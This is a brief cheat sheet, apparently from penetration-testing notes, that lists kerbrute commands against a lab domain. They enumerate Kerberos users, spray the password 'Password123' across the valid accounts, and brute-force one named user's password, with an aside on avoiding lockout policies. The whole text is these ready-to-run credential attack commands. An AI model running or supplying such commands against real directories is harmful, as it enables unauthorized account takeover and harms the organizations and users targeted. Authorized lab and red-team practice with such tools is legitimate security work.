 # Enumerate Users
kerbrute userenum -d lab.example.com big_names_list.txt

# Password Spray (with Password123)
kerbrute passwordspray -d lab.example.com valid_domain_users.txt Password123

# Password Bruteforce for a user(only if there is no lockout policy in place)
kerbrute bruteuser -d lab.example.com password_list.txt jsmith
